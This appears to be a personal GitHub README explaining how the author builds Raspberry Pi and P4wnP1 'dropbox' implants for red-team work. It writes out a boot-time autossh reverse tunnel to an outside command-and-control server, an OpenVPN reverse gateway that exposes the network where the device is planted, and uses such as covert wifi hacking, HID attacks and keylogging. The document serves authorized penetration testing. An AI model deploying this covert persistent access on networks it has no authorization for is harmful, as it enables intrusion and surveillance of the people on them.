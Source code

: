 # dropbox
I have 2 raspberry pi's that I use for red teaming. One of them is p4wnp1 which is an HID hacking tool that is running Kali Linux on a raspberry pi zero.
I also have a raspberry pi 4 that I use as a dropbox. I will describe how I got this to work and how I set everything up.

## command and control server
To get this whole thing to work I need a command and control server.
This server can be used by the dropbox to connect to it.
This server must be always reachable otherwise the dropbox can't be connected to so will be useless.
This server can be a digital ocean server because I have a server at home I could also use that but for security reasons, I will use a digital ocean VPS.
I have created a droplet with the least resources because there isn't much required from this server.
![Digital Ocean](images/digitalocean.png)

One of the key components of a dropbox is to get a connection remotely after dropping it somewhere.
This can be accomplished by a reverse ssh connection or a reverse VPN connection.
For this to work 

## Raspberry pi 4
I already have Kali Linux for arm installed on my raspberry pi 4 but this is not enough for using it as a dropbox.
To set this up you want it to be able to be dropped somewhere easy and fast and connect to it remotely after dropping it.

To get the dropbox to work I needed that kali to automatically login because if we don't do that the pi won't connect to the internet.
I have created keys and copied them to all the needed devices to have a secure connection with key authentication.

### Autossh
auto ssh needs to be installed this makes a connection with an ssh server and keeps monitoring it for reconnection.
I use keys for authentication these keys I copied before.
To make autossh work it needs to be running at bootup.
I used rc-local to run it on bootup by using this code in /etc/systemd/system/rc-local.service

```
[Unit]
 Description=/etc/rc.local Compatibility
 ConditionPathExists=/etc/rc.local
[Service]
 Type=forking
 ExecStart=/etc/rc.local start
 TimeoutSec=0
 StandardOutput=tty
 RemainAfterExit=yes
 SysVStartPriority=99
[Install]
 WantedBy=multi-user.target
```

I also added the next code to /etc/rc.local
```
#!/bin/bash -e
autossh -M $mp -fN -o "PubkeyAuthentication=yes" -o "StrictHostKeyChecking=false" -o "PasswordAuthentication=no" -o "ServerAliveInterval 60" -o "ServerAliveCountMax 3" -R $FUID:localhost:22 -i /root/.ssh/id_rsa $cncuser@$cncip &
exit 0
```

After setting up all of this I can ssh into the pi 4 without being connected to the same network through the command and control server.

## Improvements
I have attached a wireless USB adapter to have more range and wifi hacking possibilities.
I also handmade a small ethernet cable to make it more convenient when dropping it and making it less bulky.
There is an external battery to make it possible to drop in places where you can't use a wall socket.
After some time with tinkering around with the autossh, I thought it would be better to use a [reverse vpn](#reverse-vpn-gateway) that way I have full access over the machine not only ssh.
This I will do in combination with the auto ssh to always have a backup if anything goes wrong with one of them.
![pi4 dropbox](images/dropboxpi4.jpg)

## P4wnp1
The p4wnp1 is running a full set of kali linux it also has access to HID attacks.
Because of this it is really interesting to make this toolkit remotely accessible.
This way you have a small machine with all the potention without having to stay at a certain location
You don't have much resources but that is not always needed.
The only downsite is that without any adapters you only have wifi to access the internet.
So you need to have the wifi password to use p4wnp1 as a dropbox.

### Reverse vpn gateway
Because we want full access to the p4wnp1 we can use a vpn server.
But not only can we make our vpn server let us access our p4wnp1.
We can also make it an reverse VPN Gateway and by doing that we can access the whole network the p4wnp1 is connected to.
This reverse vpn gateway is also handy to use with my raspberry pi 4.

I can do this by using the same command and control server.
I will install openvpn on the server and after that configure the p4wnp1 to work as a reverse VPN gateway.

When Openvpn is installed you can open the admin page most of the thing are already set up correctly.
You have to add a user for your pentesting machine mine is called Merlijn and one for your dropbox mine is called dropbox.
These two should have auto login permissions esspecially the dropbox.
![openvpn users](images/users.png)

When both of the users are added you should go into more settings of dropbox and enable vpn gateway.
Here you have to specify what network the gateway should work on I have set the most used network 192.168.1.1/24
![openvpn gateway](images/gateway.png)


# Usages
these dropboxes can be used for multiple things.
- remotely have access to a pentest location.
- remotely doing some wifi hacking without being noticed for being a long time in a place.
- Getting access to a secured environment without staying there for too long.
- in the case of p4wnp1 remotely executing HID attacks or keylogging.